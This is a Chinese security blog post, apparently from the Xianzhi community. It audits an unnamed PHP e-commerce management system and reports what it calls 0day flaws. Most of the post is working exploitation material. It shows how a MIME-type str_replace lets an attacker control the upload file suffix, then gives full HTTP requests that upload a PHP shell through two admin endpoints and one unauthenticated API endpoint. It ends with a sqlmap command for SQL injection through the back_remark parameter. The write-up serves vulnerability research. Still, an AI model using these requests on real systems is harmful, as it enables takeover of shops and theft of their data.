# PHP代码审计-某电商管理系统0Day分析 - 先知社区

PHP代码审计-某电商管理系统0Day分析

- - -

最新源码下载，最近一次更新在22天前

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301140751-09001834-d792-1.png)

## 代码审计

### 后台文件上传Getshell(web和小程序)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301142431-5d8a71ea-d794-1.png)

尝试上传点随便上传点东西看看上传接口在哪里，虽然报错了但至少知道了源码的位置

进行代码分析在/app/webapp/modules/system/actions/uploadImgAction.class.php中结合请求包我们尝试进行debug

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301141145-94cce874-d792-1.png)

在debug过程中发现一个replace语句其中将我们的$\_FILES\['imgFile'\]\['type'\]中的image/换成了点，那么我们的 $\_FILES\['imgFile'\]\['type'\]为请求包中的Content-Type: application/octet-stream部分

```plain
$type = str_replace('image/', '.', $_FILES['imgFile']['type']);
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301141247-b95c5f80-d792-1.png)

并且在替换后有一个拼接操作，进行源码分析

```plain
$imgURL=($_FILES['imgFile']['tmp_name']);
//进行替换操作
$type = str_replace('image/', '.', $_FILES['imgFile']['type']);
//将替换后的内容进行拼接，这里导致了我们后缀可控
$imgURL_name=time().mt_rand(1,1000).$type;
//移动操作
move_uploaded_file($imgURL,$uploadImg.$imgURL_name);
$image = $uploadImg . $imgURL_name;
echo json_encode(array("error"=>$error,"url"=>$image,'message'=>$msg));
```

如果我们将Content-Type: application/octet-stream修改为Content-Type: image/php那么拼接时会变成.php的后缀。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301141335-d6137b86-d792-1.png)

构造恶意请求包

```plain
POST /index.php?module=system&action=uploadImg HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------3521672959703348041050404464
Content-Length: 238
Origin: http://127.0.0.1:8080
Connection: close
Cookie: admin_mojavi=idaa1su8mvj9leoubg27osau0r
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------3521672959703348041050404464
Content-Disposition: form-data; name="imgFile"; filename="shell.php"
Content-Type: image/php

<?php phpinfo(); ?>
-----------------------------3521672959703348041050404464--
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301141505-0b9c0048-d793-1.png)

访问

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301141410-eadbf5e8-d792-1.png)

### 后台文件上传

通过审计我们发现触发文件上传的点是因为存在str\_replace函数那么利用审计工具查看是否还有其他地方存在该漏洞点

```plain
str_replace('image/', '.', $_FILES['file']['type']);
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301141545-237e402c-d793-1.png)

审计/webapp/modules/extension/actions/uploadImgAction.class.php

[](https://xzfile.aliyuncs.com/media/upload/picture/20240303141551-7c46ed92-d925-1.png)

构造请求包

```plain
POST /index.php?module=extension&action=uploadImg HTTP/1.1
Host: 127.0.0.1:8080
Accept: */*
Accept-Encoding: identity
Cache-Control: no-cache
Content-Type: multipart/form-data; boundary=--------------------------371918364269932091066326
Cookie: admin_mojavi=idaa1su8mvj9leoubg27osau0r; XDEBUG_SESSION=PHPSTORM
User-Agent: PostmanRuntime-ApipostRuntime/1.1.0
Content-Length: 230

----------------------------371918364269932091066326
Content-Disposition: form-data; name="file"; filename="PassWaf_3.php"
Content-Type: image/php

<?php @phpinfo(); ?>
----------------------------371918364269932091066326--
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301141819-7f657130-d793-1.png)

### 未授权文件上传

上述的文件上传只限于后台，如果没有登录无法利用因此尝试寻找是否存在其他上传点，利用审计工具查找关键字

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301141919-a37dacfe-d793-1.png)

审计/webapp/modules/api/actions/userAction.class.php

```plain
public function upload(){
        // 查询配置表信息
        $sql = "select * from lkt_config where id = '1'";
        $r = lkt_gets($sql);
        if ($r) {
            $uploadImg = $r[0]->uploadImg;
            // 图片上传位置
            if (empty($uploadImg)) {
                $uploadImg = "../images";
            }
        } else {
            $uploadImg = "../images";
        }

        $imgURL = ($_FILES['file']['tmp_name']);
        $type = str_replace('image/', '.', $_FILES['file']['type']);
        $imgURL_name = time() . mt_rand(1, 1000) . $type;
        move_uploaded_file($imgURL, $uploadImg . $imgURL_name);
        echo $imgURL_name;
    }
```

和刚刚看到的后台内容类似，也是替换后拼接可以控制后缀，尝试上传  
因为是基于TP的因此我们构造接口调用，直接上传报错

```plain
POST /index.php?module=api&action=user&m=upload HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------323553422223467167571808530788
Content-Length: 243
Origin: http://127.0.0.1:8080
Connection: close
Cookie: admin_mojavi=idaa1su8mvj9leoubg27osau0r; XDEBUG_SESSION=PHPSTORM
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1


-----------------------------323553422223467167571808530788
Content-Disposition: form-data; name="imgFile"; filename="shell.php"
Content-Type:image/php

<?php phpinfo(); ?>
-----------------------------323553422223467167571808530788--
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301142054-dc17a2d6-d793-1.png)

修改name为file即可，并且为测试是未授权将Cookie删除,这里虽然只返回了文件名但根据代码的审计发现其路径依旧为/images

```plain
POST /index.php?module=api&action=user&m=upload HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------323553422223467167571808530788
Content-Length: 240
Origin: http://127.0.0.1:8080
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1


-----------------------------323553422223467167571808530788
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type:image/php

<?php phpinfo(); ?>
-----------------------------323553422223467167571808530788--
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301142202-04afdac4-d794-1.png)

### 前台SQL注入

代码分析/webapp/modules/api/actions/orderAction.class.php，发现back\_remark字段没有添加过滤

[](https://xzfile.aliyuncs.com/media/upload/picture/20240303141616-8b246254-d925-1.png)

sqlmap语句

```plain
#module=api&action=order&m=ReturnData
python sqlmap.py -u "http://127.0.0.1:8080/index.php?module=api&action=order&m=ReturnData" -data "id=1&oid=1&otype=1&re_type=1&back_remark=1" -p back_remark -dbs -batch
```
